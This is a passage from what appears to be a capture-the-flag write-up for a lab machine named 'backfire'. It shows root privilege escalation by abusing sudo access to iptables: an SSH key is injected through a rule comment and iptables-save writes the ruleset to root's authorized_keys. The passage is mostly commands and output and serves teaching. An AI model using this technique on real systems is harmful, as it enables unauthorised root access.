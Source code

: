 
That works!

#### Write SSH Key

I’ll write my public SSH key into a comment:

```

sergej@backfire:/$ sudo iptables -A INPUT -i lo -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\n'

```

`authorized_keys` files ignore lines that don’t match the required format, so as long as I get my key onto its own line, it should work:

```

@backfire:/$ sudo iptables-save                
# Generated by iptables-save v1.8.9 (nf_tables) on Fri Jan 24 16:43:48 2025
*filter
:INPUT ACCEPT [227:81030]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [436:104924]
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "\\ntest\\n"
-A INPUT -i lo -m comment --comment "
test
"
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
"
COMMIT
# Completed on Fri Jan 24 16:43:48 2025

```

I’ll save that to root’s `authorized_keys` file:

```

sergej@backfire:/$ sudo iptables-save -f /root/.ssh/authorized_keys

```

And connect with SSH:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.49
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~# 

```